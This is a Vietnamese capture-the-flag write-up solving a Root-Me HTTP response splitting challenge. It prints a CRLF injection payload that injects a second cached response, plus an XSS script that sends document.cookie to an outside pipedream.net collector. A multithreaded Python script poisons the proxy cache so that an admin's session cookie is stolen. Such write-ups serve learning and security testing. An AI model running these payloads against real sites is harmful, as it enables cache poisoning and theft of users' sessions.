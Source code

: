 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_1.png" />
</p>

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự `\r\n` để tạo xuống dòng trong request). Mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_2.png" />
</p>

Mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://eoyoae37hp6q6ss.m.pipedream.net".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công. Sau đó thực hiện encode url cho payload và gửi cho server.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_3.png" />
</p>

Gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_4.png" />
</p>

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

```python

import requests
import threading

poisoned_url = "http://challenge01.root-me.org:58002/user/param?lang=en%0D%0AContent-%20Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0ALast-modified%3A%20Thu%2C%2001%20Jan%202100%2012%3A00%3A00%20GMT%20%0D%0AContent-Length%3A%20134%0D%0A%0D%0A%3Cscript%3Edocument.write%28%22%3Ch1%3EEXP%3C%2Fh1%3E%3Cimg%20src%3Dhttps%3A%2F%2Feoyoae37hp6q6ss.m.pipedream.net%3F%22.concat%28document.cookie%29.concat%28%22%20%2F%3E%22%29%29%3C%2Fscript%3E"
admin_url = "http://challenge01.root-me.org:58002/admin"
header = {"Pragma":"no-cache"}
cookies = {"user_session":"Your session"}

def poison_func():
	i=0
	while i<1000:
		print("i=" + str(i))
		requests.get(url=poisoned_url,headers=header,cookies=cookies)
		i+=1

def access_func():
	j=0
	while j<1000:
		print("j=" + str(j))
		requests.get(url=admin_url,headers=header,cookies=cookies,allow_redirects=False)
		j+=1

try:
	t1 = threading.Thread(target=poison_func)
	t2 = threading.Thread(target=access_func)
	t3 = threading.Thread(target=poison_func)
	t4 = threading.Thread(target=access_func)
	t1.start()
	t2.start()
	t3.start()
	t4.start()
except:
	print("Error")


```

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song. Các bạn nhớ thay thế phần url ở biến poisoned_url thành payload của bạn. Đối với user_session cũng tương tự.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_5.png" />
</p>

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_6.png" />
</p>

Đem admin session vừa lấy được đem submit và giải được bài này.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_7.png" />
</p>